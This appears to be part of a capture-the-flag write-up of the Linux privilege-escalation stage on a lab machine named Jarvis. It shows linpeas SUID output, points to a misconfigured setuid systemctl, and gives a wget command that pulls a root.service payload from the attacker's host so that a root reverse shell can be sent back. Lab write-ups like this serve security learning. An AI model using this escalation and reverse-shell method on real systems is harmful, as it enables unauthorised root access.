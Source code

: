 Ran the script

```
./linpeas.sh
```

I got back the following results 
```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                                                                                                                                            
strace Not Found                                                                                                                                                                                                                                                                                                            
-rwsr-xr-x 1 root root 31K Aug 21  2018 /bin/fusermount                                                                                                                                                                                                                                                                     
-rwsr-xr-x 1 root root 44K Mar  7  2018 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 60K Nov 10  2016 /bin/ping
-rwsr-x--- 1 root pepper 171K Feb 17  2019 /bin/systemctl
-rwsr-xr-x 1 root root 31K Mar  7  2018 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 40K May 17  2017 /bin/su
-rwsr-xr-x 1 root root 40K May 17  2017 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 59K May 17  2017 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 75K May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40K May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 138K Jun  5  2017 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 49K May 17  2017 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 431K Mar  1  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42K Mar  2  2018 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

The systemctl binary has the setuid bit set and it’s owned by root. So, I could easily use it to escalate to root privileges. I used [GTFObins](https://gtfobins.github.io/) to escalate my privileges.

![image](https://user-images.githubusercontent.com/87711310/225534877-3035bc17-7454-45df-bb82-d7a6a391495d.png)

There’s a good blog written by [Samual Whang](https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49) explaining how to set up a service and use the misconfigured systemctl binary to send a privileged reverse shell back to our attack machine.



```
pepper@jarvis:/tmp$ wget http://10.10.14.8:5555/root.service
wget http://10.10.14.8:5555/root.service
--2023-03-16 02:39:53--  http://10.10.14.8:5555/root.service
Connecting to 10.10.14.8:5555... connected.
HTTP request sent, awaiting response... 200 OK
Length: 171 [application/octet-stream]
Saving to: 'root.service'

root.service        100%[===================>]     171  --.-KB/s    in 0s      

2023-03-16 02:39:53 (28.9 MB/s) - 'root.service' saved [171/171]
```
